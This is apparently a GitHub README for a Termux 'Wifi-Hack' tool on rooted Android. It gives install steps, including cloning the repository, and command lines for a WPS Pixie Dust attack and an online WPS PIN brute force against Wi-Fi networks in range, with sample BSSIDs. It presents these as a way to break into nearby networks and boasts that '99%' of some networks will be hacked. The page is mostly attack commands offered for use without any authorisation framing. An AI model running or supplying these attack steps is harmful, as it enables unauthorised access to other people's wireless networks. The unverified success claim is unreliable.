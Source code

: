 ## Wifi-Hack 🗿
### Hack WIfi Using Termux! (Need Rooted Device )🧑‍💻

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install :

```bash
pkg update && pkg upgrade
```
```
pkg install git
```
```
pkg install python
```
```
apt update && apt upgrade
```
```
pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```
git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```
cd Wifi-Hack
```
```
chmod +x fück-wifi.py
```
### Note📝 : Now turn off Wifi 
```
sudo python fück-wifi.py -i wlan0 -K
```
## Note📝: It will show all Wifi within your range. Among them, 99% of Green's will be hacked. And the White ones may also be tried. And the Red ones will not be hacked.

## Enter this command to open Tool next time. 
```bash
sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note 📝: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
## Thanks For Using My Tool ❤️
